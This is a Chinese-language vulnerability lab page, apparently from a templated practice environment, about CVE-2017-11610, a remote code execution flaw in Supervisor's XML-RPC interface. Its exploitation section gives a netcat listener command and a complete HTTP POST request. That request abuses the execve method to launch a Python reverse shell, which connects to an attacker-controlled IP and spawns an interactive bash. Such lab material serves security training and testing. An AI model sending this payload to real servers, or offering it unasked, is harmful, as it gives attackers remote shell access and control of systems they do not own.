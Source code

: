 # Supervisor Authenticated Remote Code Execution(CVE-2017-11610)

### 漏洞信息

Supervisor 是用 Python 开发的一套通用的进程管理程序，能将一个普通的命令行进程变为后台 daemon，并监控进程状态，异常退出时能自动重启。Supervisor可通过web接口管理服务，在配置了web接口后，同时会在服务器启动一个 XMLRPC 服务器，端口为 9001。该接口可配置需要密码访问，或者无需认证访问。

在获取该接口的访问权限后，远程攻击者可发送一段精心构造的请求，可在服务器执行任意代码。

详细信息参考：[[CVE-2017-11610] RCE vulnerability report](https://github.com/Supervisor/supervisor/issues/964)


### 漏洞利用

**注意：**该 Exp 使用的`execve`, 如果存在漏洞，会将 `supervisord` 进程替换成指定的程序(本 Exp 中将会替换成 `/usr/bin/python`)，换言之，会导致`supervisord`进程退出，**生产环境中请慎用**

反弹 Shell 演示：

> 假定启动后的环境如下：
>
> 攻击者 IP: {{remoteip}}
> 
> 受害者 IP: {{ip}}

1. 在攻击者机器上使用 nc 监听

 ```
 $ nc -lvp 9999
 ```

2. 向受害者 {{port[1]}} 端口发送如下报文后即可

```
POST /RPC2 HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/xml
Content-Type: text/xml
Accept-Language: en-GB,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 638
Host: {{ip}}:{{port[1]}}

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.execve</methodName>
<params>
<param>
<string>/usr/bin/python</string>
</param>
<param>
<array>
<data>
<value><string>python</string></value>
<value><string>-c</string></value>
<value><string>import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{{remoteip}}",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);</string></value>
</data>
</array>
</param>
<param>
<struct>
</struct>
</param>
</params>
</methodCall>
```

---

![](http://{{ip}}:{{webport}}/vuln/supervisor/exp.png)

### 参考链接

* [SSD Advisory – Supervisor Authenticated Remote Code Execution](https://blogs.securiteam.com/index.php/archives/3348)
* [[CVE-2017-11610] RCE vulnerability report](https://github.com/Supervisor/supervisor/issues/964)

